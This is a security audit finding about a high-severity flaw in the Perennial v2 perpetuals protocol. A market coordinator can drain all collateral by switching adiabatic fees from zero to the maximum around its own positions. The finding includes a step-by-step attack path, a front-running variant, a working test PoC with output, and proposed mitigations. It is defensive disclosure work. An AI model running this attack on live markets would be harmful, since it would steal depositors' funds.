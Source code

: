 Dizzy Rusty Osprey

High

# Market coordinator can steal all market collateral by changing adiabatic fees

**Summary**
The README states the following:
> Q: Please list any known issues and explicitly state the acceptable risks for each known issue.
> Coordinators are given broad control over the parameters of the markets they coordinate. The protocol parameter is designed to prevent situations where parameters are set to malicious steal funds. If the coordinator can operate within the bounds of reasonable protocol parameters to negatively affect markets we would like to know about it

Even when protocol parameters are reasonable, market coordinator can steal all market funds by utilizing the adiabatic fees change. The adiabatic fees are fees taken from takers when they increase skew (difference between open longs and shorts) and paid to takers when they decrease skew to incentivize orders which reduce price risk for makers. The issue is that market coordinator can set adiabatic fees to 0, open large maker/taker positions (taker position paying 0 adiabatic fees), then immediately set adiabatic fees to max possible (e.g. 1%) and close taker/maker positions (receiving the adiabatic fee). This fees difference when adiabatic fees are changed by market coordinator is subtracted from market's global `exposure`, which is supposed to be paid/received by the owner. I.e. when adiabatic fees are increased, this increases exposure to be paid by the owner with coordinator being able to withdraw this amount to himself (up to total market's collateral available), meaning coordinator can steal all market funds.

**Root Cause**
The root cause is the protocol design of adiabatic fees, it's hard to pinpoint any specific code which is the root cause.

When market risk parameters are updated, `Global.update` is called with new risk parameters, which changes the global `exposure`:
https://github.com/sherlock-audit/2024-08-perennial-v2-update-3/blob/main/perennial-v2/packages/perennial/contracts/types/Global.sol#L54-L56

This global `exposure` has to be covered or received by owner by calling `claimExposure`:
https://github.com/sherlock-audit/2024-08-perennial-v2-update-3/blob/main/perennial-v2/packages/perennial/contracts/Market.sol#L329-L339

Since market coordinator can change adiabatic fees, this allows market coordinator to control the owner's exposure, which is essentially what lets coordinator to take advantage of this and steal funds.

**Internal pre-conditions**
Coordinator is malicious
OR
User front-runs adiabatic fees increase transaction

**External pre-conditions**
None.

**Attack Path**
1. Coordinator sets adiabatic fees and all the other fees to 0, also increases makerLimit to large amount to cause larger impact
2. Coordinator opens large maker position and large taker position (paying 0 fees)
3. Wait for 1 oracle version to settle maker and taker positions
4. Coordinator sets adiabatic fees to max allowed value (e.g. 1%)
5. Coordinator closes taker position, settles it, closes maker position, settles it
6. At this point maker should have about the same amount of collateral as deposited, and taker should have deposited collateral + adiabatic fees paid to taker for closing the position. Both maker and taker accounts withdraw all collateral. Most likely total collateral will be higher than the market has, so simply withdraw all collateral market has

At this point all funds are stolen by coordinator (and if not - simply repeat from step 1 until all funds are stolen). The other users will have positive collateral balances, but they will be unable to withdraw anything since market token balance will be 0 (market owner will have large negative exposure).

Alternative attack scenario:
1. Coordinator wants to increase adiabatic fees
2. User listens to coordinator transaction and front-runs it by creating huge taker position (possibly 2 taker positions - long+short to be delta-neutral, also maybe maker position if necessary, to be able to open large taker positions). This doesn't need to be classic front-run, maybe the coordinator will announce risk parameter changes in the forum or somewhere, and user opens these positions in anticipation of adiabatic fees increase
3. Coordinator transaction to increase adiabatic fees goes through
4. User closes his positions, receiving large profit from adiabatic fees only (which should more than cover all the other fees, and market price risk can be neutralized by opening delta-neutral positions), at the expense of the owner's exposure

**Impact**
All market collateral token balance is stolen.

**PoC**
<details>
<summary>Add to `test/unit/Market.test.ts` in the `update` context to demonstrate the scenario described above:</summary>

```solidity
it('Coordinator steals all funds', async () => {

    // collateral to pay fee only
    const A_COLLATERAL = parse6decimal('10000000')
    const C_COLLATERAL = parse6decimal('1000000')
    const A_POSITION = parse6decimal('100000')

    dsu.transferFrom.whenCalledWith(user.address, market.address, A_COLLATERAL.mul(1e12)).returns(true)
    dsu.transferFrom.whenCalledWith(userB.address, market.address, A_COLLATERAL.mul(1e12)).returns(true)
    dsu.transferFrom.whenCalledWith(userC.address, market.address, C_COLLATERAL.mul(1e12)).returns(true)

    // honest userC simply deposits $1M collateral, not even opening position
    await market
        .connect(userC)
        ['update(address,uint256,uint256,uint256,int256,bool)'](userC.address, 0, 0, 0, C_COLLATERAL, false)

    const maliciousRiskParameter = {
        ...riskParameter,
        makerLimit: parse6decimal('100000'),
        takerFee: {
        ...riskParameter.takerFee,
        adiabaticFee: parse6decimal('0.00'), // this is paid by taker when taker opens, so make it 0
        scale: parse6decimal('5000.000'),
        },
        makerFee: {
        ...riskParameter.makerFee,
        scale: parse6decimal('5000.000'),
        },
        // set utilization curve to 0 to better showcase the adiabaticFee impact
        utilizationCurve: {
        ...riskParameter.utilizationCurve,
        minRate: parse6decimal('0.0'),
        maxRate: parse6decimal('0.0'),
        targetRate: parse6decimal('0.0'),
        targetUtilization: parse6decimal('0.50'),
        },
    }
    await market.connect(coordinator).updateRiskParameter(maliciousRiskParameter)

    // coordinator uses 2 accounts to open maker and taker positions with adiabatic fees = 0 (taker doesn't pay any fees)
    await market
        .connect(user)
        ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, A_POSITION, 0, 0, A_COLLATERAL, false)

    await market
        .connect(userB)
        ['update(address,uint256,uint256,uint256,int256,bool)'](userB.address, 0, A_POSITION, 0, A_COLLATERAL, false)

    oracle.at.whenCalledWith(ORACLE_VERSION_2.timestamp).returns([ORACLE_VERSION_2, INITIALIZED_ORACLE_RECEIPT])
    oracle.status.returns([ORACLE_VERSION_2, ORACLE_VERSION_3.timestamp])
    oracle.request.whenCalledWith(user.address).returns()

    await settle(market, userB)

    var loc = await market.locals(userB.address);
    console.log("UserB collateral with open taker: " + loc.collateral);

    // now set adiabatic fees to max allowed (1%) to receive them back when closing taker
    const maliciousRiskParameter2 = {
        ...maliciousRiskParameter,
        takerFee: {
        ...maliciousRiskParameter.takerFee,
        adiabaticFee: parse6decimal('0.01'), // set max fee since this will be paid to taker on close
        },
    }
    await market.connect(coordinator).updateRiskParameter(maliciousRiskParameter2)

    // close maker and taker which should pay adiabatic fees to taker
    await market
        .connect(userB)
        ['update(address,uint256,uint256,uint256,int256,bool)'](userB.address, 0, 0, 0, 0, false)

    oracle.at.whenCalledWith(ORACLE_VERSION_3.timestamp).returns([ORACLE_VERSION_3, INITIALIZED_ORACLE_RECEIPT])
    oracle.status.returns([ORACLE_VERSION_3, ORACLE_VERSION_4.timestamp])
    oracle.request.whenCalledWith(user.address).returns()

    await market
        .connect(user)
        ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, 0, false)

    oracle.at.whenCalledWith(ORACLE_VERSION_4.timestamp).returns([ORACLE_VERSION_4, INITIALIZED_ORACLE_RECEIPT])
    oracle.status.returns([ORACLE_VERSION_4, ORACLE_VERSION_5.timestamp])
    oracle.request.whenCalledWith(user.address).returns()

    await settle(market, user)
    await settle(market, userB)
    await settle(market, userC)

    var loc = await market.locals(user.address);
    console.log("User collateral after closing: " + loc.collateral);
    var loc = await market.locals(userB.address);
    console.log("UserB collateral after closing: " + loc.collateral);
    var loc = await market.locals(userC.address);
    console.log("UserC collateral after closing: " + loc.collateral);

    var glob = await market.global();
    console.log("Exposure to be paid by owner: " + glob.exposure);
})
```
</details>

Console output:
```solidity
UserB collateral with open taker: 10000000000000
User collateral after closing: 10000060000000
UserB collateral after closing: 11229933600000
UserC collateral after closing: 1000000000000
Exposure to be paid by owner: -1230000000000
```

Notice, that all 3 users deposited a total of 21M, but after the attack collateral of coordinator's users (user and userB) is 21.2M and userC collateral is still 1M, but the total of all 3 users is 22.2M, 1.2M is the exposure which should be covered by the owner.

**Mitigation**
This is the design issue, so mitigation only depends on the intended design. Possible options:
1. Remove adiabatic fees altogether
2. Limit the total exposure amount which can be created by the coordinator (not full fix, but at least limits the loss)
3. Force coordinator to pay exposure instead of owner (this is just partial fix though, and if exposure which can be received is also due to coordinator, this opens reverse attack vector of draining funds from existing users by decreasing adiabatic fees)